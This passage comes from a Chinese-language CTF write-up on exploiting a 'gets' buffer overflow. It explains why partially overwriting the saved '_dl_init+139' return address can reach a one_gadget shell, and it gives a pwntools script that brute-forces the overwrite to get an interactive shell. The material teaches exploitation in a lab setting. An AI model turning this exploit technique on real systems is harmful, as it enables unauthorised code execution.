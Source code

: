其中 `__libc_start_main+240` 位于 libc 中，`_dl_init+139` 位于 ld 中

```
0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
0x7ffff7dcd000     0x7ffff7dd1000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
0x7ffff7dd1000     0x7ffff7dd3000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
0x7ffff7dd3000     0x7ffff7dd7000 rw-p     4000 0
0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
```

一个比较自然的想法就是我们通过 partial overwrite 来修改这两个地址到某个获取 shell 的位置，那自然就是 Onegadget 了。那么我们究竟覆盖哪一个呢？？

我们先来分析一下 `libc` 的基地址 `0x7ffff7a0d000`。我们一般要覆盖字节的话，至少要覆盖1个半字节才能够获取跳到 onegadget。然而，程序中读取的时候是 `gets`读取的，也就意味着字符串的末尾肯定会存在`\x00`。

而我们覆盖字节的时候必须覆盖整数倍个数，即至少会覆盖 3 个字节，而我们再来看看`__libc_start_main+240` 的地址 `0x7ffff7a2d830`，如果覆盖3个字节，那么就是 `0x7ffff700xxxx`，已经小于了 libc 的基地址了，前面也没有刻意执行的代码位置。

一般来说 libc_start_main 在 libc 中的偏移不会差的太多，那么显然我们如果覆盖 `__libc_start_main+240` ，显然是不可能的。

而 ld 的基地址呢？如果我们覆盖了栈上`_dl_init+139`，即为`0x7ffff700xxxx`。而观察上述的内存布局，我们可以发现`libc`位于 `ld` 的低地址方向，那么在随机化的时候，很有可能 libc 的第 3 个字节是为`\x00` 的。

举个例子，目前两者之间的偏移为

```
0x7ffff7dd7000-0x7ffff7a0d000=0x3ca000
```

那么如果 ld 被加载到了 `0x7ffff73ca000`，则显然 `libc` 的起始地址就是`0x7ffff7000000`。

因此，我们有足够的理由选择覆盖栈上存储的`_dl_init+139`。那么覆盖成什么呢？还不知道。因为我们还不知道 libc 的库版本是什么，，

我们可以先随便覆盖覆盖，看看程序会不会崩溃，毕竟此时很有可能会执行 libc 库中的代码。

```python
from pwn import *
context.terminal = ['tmux', 'split', '-h']
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
elfpath = './gets'
context.binary = elfpath

elf = ELF(elfpath)
bits = elf.bits


def exp(ip, port):
    for i in range(0x1000):
        if args['REMOTE']:
            p = remote(ip, port)
        else:
            p = process(elfpath, timeout=2)
        # gdb.attach(p)
        try:
            payload = 0x18 * 'a' + p64(0x40059B)
            for _ in range(2):
                payload += 'a' * 8 * 5 + p64(0x40059B)
            payload += 'a' * 8 * 5 + p16(i)
            p.sendline(payload)
            data = p.recv()
            print data
            p.interactive()
            p.close()
        except Exception:
            p.close()
            continue

```